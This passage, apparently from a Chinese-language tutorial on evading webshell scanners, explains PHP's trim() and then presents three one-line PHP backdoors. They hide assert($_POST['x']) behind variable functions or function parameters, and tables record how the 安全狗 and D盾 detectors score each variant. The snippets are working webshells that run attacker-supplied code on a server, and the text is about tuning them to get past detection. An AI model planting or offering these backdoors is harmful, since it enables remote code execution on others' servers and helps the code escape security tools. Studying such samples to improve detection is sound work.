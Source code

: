 ```php
trim(string,charlist)
```

trim() 函数移除字符串两侧的空白字符或其他预定义字符。

| 参数       | 描述                                                         |
| :--------- | :----------------------------------------------------------- |
| *string*   | 必需。规定要检查的字符串。                                   |
| *charlist* | 可选。规定从字符串中删除哪些字符。如果被省略，则移除以下所有字符 `\0` - NULL; `\t` - 制表符; `\n` - 换行; `\x0B` - 垂直制表符; `\r` - 回车; **空格** |

```php
<?php 
    $a = trim(' assert ');
    $a($_POST['x']);
?>
```

| 安全狗       | D盾                 |
| :----------- | :------------------ |
| 0 个安全风险 | 级别 4 变量函数后门 |

![0lmXtA.png](https://s1.ax1x.com/2020/10/02/0lmXtA.png)



### 函数绕过

函数可以把敏感关键词当做参数传递。

```php
<?php 
    function sqlsec($a){
        $a($_POST['x']);
    }
    sqlsec(assert);
?>
```

| 安全狗                      | D盾                 |
| :-------------------------- | :------------------ |
| 1 个安全风险 assert变量函数 | 级别 2 变量函数后门 |

但是换一种方式将`$_POST['x']`当做参数传递的话就都翻车了：

```php
<?php 
    function sqlsec($a){
        assert($a);
    }
    sqlsec($_POST['x']);
?>
```

| 安全狗                            | D盾      |
| :-------------------------------- | :------- |
| 1 个安全风险 assert PHP一句话后门 | 已知后门 |
